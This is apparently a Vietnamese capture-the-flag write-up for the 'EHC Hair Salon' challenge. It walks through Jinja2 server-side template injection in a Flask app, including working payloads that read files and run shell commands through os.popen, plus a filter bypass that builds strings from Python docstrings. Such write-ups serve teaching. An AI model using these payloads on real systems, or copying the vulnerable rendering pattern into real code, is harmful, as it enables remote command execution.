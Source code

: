 # EHC Hair Salon

[Src code server](app.py)

Challenge này cho ta một trang web như hình, có một text input và một nút để submit:

![chall](chall.png)

Xem qua src code server mình thấy đoạn text mình nhập vào sẽ được chèn vào 1 đoạn HTLM và render ra bằng template engine Jinja của Flask
```python
...
page = 'REDACTED HTML CODE {} REDACTED HTML CODE'.format(hair_type)
return render_template_string(page)
...
```

---

Bình thường thì ta có thể inject code python vào đây. Ex:
- `{{7*7}}` sẽ được render ra thành 49
- `{{get_flashed_messages.__globals__.__builtins__.open("flag.txt").read()}}` trả về nội dung của file `flag.txt`
- `{{cycler.__init__.__globals__.os.popen('ls').read()}}` chạy lệnh `ls` trong shell

Tham khảo thêm [ở đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)

Nhưng ở bài này thì input đã bị filter đi khá nhiều thứ, quan trọng nhất là string và số
```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"
...
if '{' in hair_type and re.search(regex,hair_type):
    return render_template_string(error_page)

if len(hair_type) > 256:
    return render_template_string(error_page)
...
```

---

Vì thế thay vì nhập string và số trực tiếp thì mình có thể dùng những thứ có sẵn của python. Ex:
- `().__doc__` trả về doc của tuple `"Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object."`
- `().__gt__.__name__` trả về `"__gt__"`
- `[].__len__()` trả về số phần tử của mảng rỗng là `0`
- `[[],[],[]].__len__()` trả về `3`

Kết hợp lại với nhau thì mình có thể substring để lấy từng ký tự cụ thể. Ex:
- `().__doc__[[[],[],[]].__len__()]` trả về `l`
- `().__str__.__name__[[[],[]].__len__()]` trả về `s`

---

Thử inject payload `{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}` mình tìm được một file có tên là flag trong thư mục

![ls](ls.png)

Tương tự, đoạn code sau sẽ trả về chữ `flag`
```python
[].__doc__[-[[],[],[],[],[]].__len__()]+\
().__doc__[[[],[],[]].__len__()]+\
().__add__.__name__[[[],[]].__len__()]+\
().__gt__.__name__[[[],[]].__len__()]
```

Inject `{{get_flashed_messages.__globals__.__builtins__.open([].__doc__[-[[],[],[],[],[]].__len__()]+().__doc__[[[],[],[]].__len__()]+().__add__.__name__[[[],[]].__len__()]+().__gt__.__name__[[[],[]].__len__()]).read()}}`

![flag](flag.png)

Flag: `FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}`